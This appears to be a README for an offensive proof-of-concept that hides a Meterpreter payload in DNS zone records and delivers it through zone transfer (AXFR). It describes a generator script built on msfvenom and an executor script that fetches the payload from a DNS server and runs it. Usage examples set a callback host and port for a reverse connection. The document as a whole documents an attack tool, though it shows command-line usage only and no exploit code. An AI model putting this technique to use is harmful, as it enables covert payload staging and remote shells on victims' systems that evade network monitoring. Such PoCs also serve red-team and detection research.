 # Meterpreter Payload Delivery using DNS AXFR PoC

## Zone Gen

Zone generator. This script generates payload and converts it to bind's configuration.

### Requirements

msfvenom should be installed.

### Usage

arguments:
```
% zone-gen.py -h
usage: zone-gen.py [-h] -d DOMAIN -a IP -s SOA_ENTRIES -n NS_SERVER -o
                   OUTPUT_FILE -l LHOST -p LPORT

Bind9 zone transfer malicious payload generator

optional arguments:
  -h, --help            show this help message and exit
  -d DOMAIN, --domain DOMAIN
                        domain name for which configuration will be generated
  -a IP, --ip IP        ip name of generated domain
  -s SOA_ENTRIES, --soa-entries SOA_ENTRIES
                        soa entries
  -n NS_SERVER, --ns-server NS_SERVER
                        nameserver domain
  -o OUTPUT_FILE, --output-file OUTPUT_FILE
                        output file name
  -l LHOST, --lhost LHOST
                        local host address (remote address will connect on it)
  -p LPORT, --lport LPORT
                        local port (remote address will connect on it)
```

example usage:
```
/src/zone-gen.py -d example.com -a 127.0.0.1 -s example.com -n example.com -o /common/out.conf -l 127.0.0.1 -p 4444
```

## AXFR executor

This script takes malicious payload from remote DNS server and executes it.

### Requirements

Install requirements:

```
pip3 install -r requirements.txt
```

### Usage

```
% src/axfr-get-payload.py -h
usage: axfr-get-payload.py [-h] -o OS -d DOMAIN_NAME -s SERVER_ADDRESS

DNS zone transfer malicious payload executor

optional arguments:
  -h, --help            show this help message and exit
  -o OS, --os OS        operating system (linux or windows)
  -d DOMAIN_NAME, --domain-name DOMAIN_NAME
                        domain name which should be transfer
  -s SERVER_ADDRESS, --server-address SERVER_ADDRESS
                        DNS server address, from which zone should be transfer
```

Example usage:
```
./axfr-get-payload.py -o linux -d example.com -s 127.0.0.1
```
